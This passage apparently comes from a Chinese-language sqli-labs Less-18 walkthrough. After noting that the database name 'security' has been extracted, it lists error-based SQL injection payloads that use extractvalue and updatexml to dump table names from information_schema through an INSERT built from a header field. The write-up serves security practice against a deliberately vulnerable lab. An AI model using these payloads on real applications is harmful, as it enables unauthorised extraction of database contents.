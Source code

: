 成功爆出库名<code>security</code>



+ 爆表名

~~~ shell
insert into 'security'.'某个表'(uagent,ipadd,username) values('' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1','ip地址','用户名')

'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema =database()),0x7e),1) and '1'='1

'and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) and '

'and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) and '
~~~

![Less-18_12](./img/Less-18_12.PNG)
